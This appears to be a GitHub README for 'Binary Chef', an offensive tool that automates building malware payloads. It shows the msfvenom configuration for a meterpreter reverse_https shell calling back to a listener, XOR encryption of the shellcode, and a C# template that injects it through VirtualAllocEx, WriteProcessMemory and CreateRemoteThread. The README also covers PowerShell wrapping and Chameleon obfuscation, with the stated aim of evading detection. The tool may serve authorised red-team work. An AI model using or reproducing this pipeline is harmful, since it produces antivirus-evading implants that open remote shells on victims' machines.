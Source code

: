 
# Binary Chef

As of 2/1/2023, you can build executables, convert it to powershell, and obfuscate the *.ps1 automatically in Ansible!

This tool will help you with compiling executable binaries automatically. Using the Jinja Template, C# file, it accomplish automated insertion of shellcode block. Also it supports automated obfuscation in Chameleon

the execution steps are as in the following.

1. Uses msfencoder (msfvenom) to automatically create and encrypt the payload.
2. Based on Jinja template file of C#, it places the payload in the desired location in the C# source code.
3. Automatically compile C# files on Windows.
4. Encode the executables in base64 format, Import it to powershell module. 
5. Obfuscate Powershell script with chameleon, to evade detection.


*You'll need to have a simple infrastructure as in the image below.*


![graph](./image.png)

# Requirement


### Windows(Remote)

Run `Setup/ConfigureWinrmHTTPS.ps1` on your `windows` machine first to configure WinRM Service to enable HTTPS.
Ansible will need to connect via HTTPS.

> Please note that you need to have Visual Studio and .NET package installed on the windows machine.
> I have only have tested Visual Studio are "Visual Studio 2022 Community Version".


### Linux(Remote)

Just use Kali Linux.


### LocalMachine(Linux/MacOS)

You must configure the following 3.

- Connection Option
- Compiling Option
- Source Code Option

### Connection option

Configure the allocated IP for each Kali and Windows VM such as in the following format.

```yaml
[kali]
169.254.217.2

[kali:vars]
ansible_host=169.254.217.2
ansible_port=22
ansible_ssh_user=XXXXX
ansible_python_interpreter=python3
# Optional for SSH
# ansible_ssh_private_key_file=~/.ssh/kali.private

[windows]
169.254.217.3

[windows:vars]
ansible_host=169.254.217.3
ansible_user=XXXXX
ansible_password=XXXXX
ansible_connection=winrm
ansible_port=5986
ansible_winrm_server_cert_validation=ignore
ansible_winrm_scheme=https
#ansible_python_interpreter=c:\Python\python
ansible_python_interpreter=python3 
# Option for SSH
ansible_ssh_private_key_file=~/.ssh/win11.private
```

### Compiling option

you need `pip3 install pywinrm` to access windows with Ansible remotely.

Once you are able to connect to VMs, you need to specify the variables in `groups_vars/all.yaml`.

variable you need to change are `msfencoder` arguments and `compiler`.

```yaml
# Linux
## MsfEncode arguments
## msfencoder 169.254.217.2 443 cs xor 0xfa windows/meterpreter/reverse_https
server: 169.254.217.2
ports: 443
format: 'cs'
encrypt_method: 'xor'
encrypt_key: '0xfa'
payload: 'windows/meterpreter/reverse_https'

# Local Machine
## j2 Templates
src: ../../../codemaker/src/*.j2
## To store executables
out: ../../../codemaker/out


# Windows 
## Temp Folder
tempdir: C:/Temp/
## CSC.exe compiler
compiler: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe
```

### Source Code Option

the souce code C# will be put under `codemaker/src/`. please make sure you have the extension appended `.j2` (Jinja template), otherwise Ansible won't be able to render and modify files.

Once you have the template files, insert `{{ payloadContent }}` to specify the insertion point of shellcode that will be inserted by `msfencoder`.

```csharp
using System;

        public static void Main(string[] args)
        {
            {{ payloadContent }}
        
            // write the code you want...
            VirtualAllocEx();
            WriteProcessMemory();
            CreateRemoteThread();
        }
```

### Running ansible

This will ask you password for Kali VM, to execute as SUDO.

```bash
ansible-playbook build-binary.yaml --ask-become-pass
ansible-playbook encode-command.yaml
```
